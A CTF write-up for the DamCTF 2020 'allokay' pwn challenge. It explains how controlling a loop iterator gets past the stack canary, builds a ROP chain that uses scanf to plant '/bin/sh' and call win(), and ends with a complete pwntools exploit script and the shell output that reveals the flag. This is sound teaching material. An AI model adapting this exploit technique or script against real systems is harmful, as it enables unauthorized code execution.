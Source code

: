 ```yaml
---
layout: post
title: Dam CTF 2020 allokay (pwn)
---
```


Running checksec on the binary, we can see that many standard exploit mitigation technologies are present: stack canaries, non-executable stack, no RUNPATH. PIE is disabled, and the debugging symbols are still present.

## Initial dynamic analysis

The program asks for the number of favorite numbers the user has. Next, the user has to put in all of his favorite numbers. One noticable thing is that the program does not handle certain numbers well, for example, when the user has 10 favorite numbers,the program stops after 6 numbers.

<img src="{{ site.baseurl }}/images/allokay1.png"/>

## Initial Static analysis

Since the symbols are still present in the binary, loading the program into IDA gave us a clear overview of the execution flow and names of the functions. In a function called "get_input", the program gathers all of the user's favorite numbers. There is a stack cookie present in the function, so simply feeding a lot of data to overwrite the instruction pointer would be impossible.

## The "6 number" problem

As seen in the initial dynamic analysis, the program exits if more than 6 numbers are put into the program. This is because the value for the number of programs and the iterator are both stored on the stack, but the user's favorite numbers are stored on the stack too. Since the program does not dynamically create enough space on the stack depending on the amount of favorite numbers the user has, the numbers will overwrite both the iterator and the maximum amount of numbers. Since it overwrites the max numbers first, and since the number put in is very small, the numbers_max variable will be set to 0, and the loop condition is false. The loop will break, and the program will exit.

One interesting property of the "get_input" function is that the iterator determines where on the stack the input is being written.

<img src="{{ site.baseurl }}/images/allokay2.png"/>

Since we control the iterator, we control where the program writes the data put in by the user, and since we control the numbers_max variable, we control how many writes it will perform before leaving the loop. This way, we can bypass the stack cookie and overwrite the saved return address with the address of "win()". It is important to note that the user has to put in the attacker data in the form of integers, since the scanf() function that gets the data uses the format string "%ld". For example, if we want to call win(), we would need to get the address in hexadecimal and convert it to decimal.

## /bin/sh

Unfortunately, the win() function requires an argument: the path for execve() to execute. The argument needs to be stored in rdi, so we first need to build a ropchain that puts "/bin/sh" into rdi. The binary itself does not contain that string, and simply popping the /bin/sh string from libc would not work either, since the remote server has ASLR enabled. Therefore, the ropchain needs to make a call to some function that gets input from the user and stores it somewhere the attacker intended.

The first function I considered was fgets(), since we could easily put in the literal string "/bin/sh" into stdin, and store it wherever we want. Unfortunately, there is no rop gadget that controls the rdx register, which is the third argument for the fgets() function. Instead, scanf() can be used to write the arbitrary data. One thing to note is that there is no "%s" format string in the binary, so we have to reuse the "%ld" string. This means that we need to put in the "/bin/sh" string in an integer format by converting the string to decimal with the ASCII table. For the write location of the "/bin/sh" string, I choose the .bss segment.

We now have enough information to build an exploit script and carry out an attack.

```python
#!/bin/python3

from pwn import *

numbers_max_overwrite = b'85899345931'
iterator_overwrite = b'42949672971'
poprdi = b'4196659'
ld = b'4196717'
poprsi_popr15 = b'4196657'
binsh_location = b'6295680'
scanf = b'4195936'
win = b'4196199'
binsh = b'29400045130965551'

r = remote('chals.damctf.xyz', 32575)

r.recvuntil(b'How many favorite numbers do you have?\n')
r.sendline(b'10')

for x in range(5):
    r.recvuntil(b': ')
    r.sendline(b'2')

r.recvuntil(b': ')
r.sendline(numbers_max_overwrite)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(iterator_overwrite)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(ld)
r.recvuntil(b': ')
r.sendline(poprsi_popr15)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(b'2')
r.recvuntil(b': ')
r.sendline(scanf)
r.recvuntil(b': ')
r.sendline(poprdi)
r.recvuntil(b': ')
r.sendline(binsh_location)
r.recvuntil(b': ')
r.sendline(win)
r.sendline(binsh)

r.interactive()
```

Script output:
```console
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[*] Switching to interactive mode
$ ls
allokay
flag
$ cat flag
dam{4Re_u_A11_0cK4y}
```
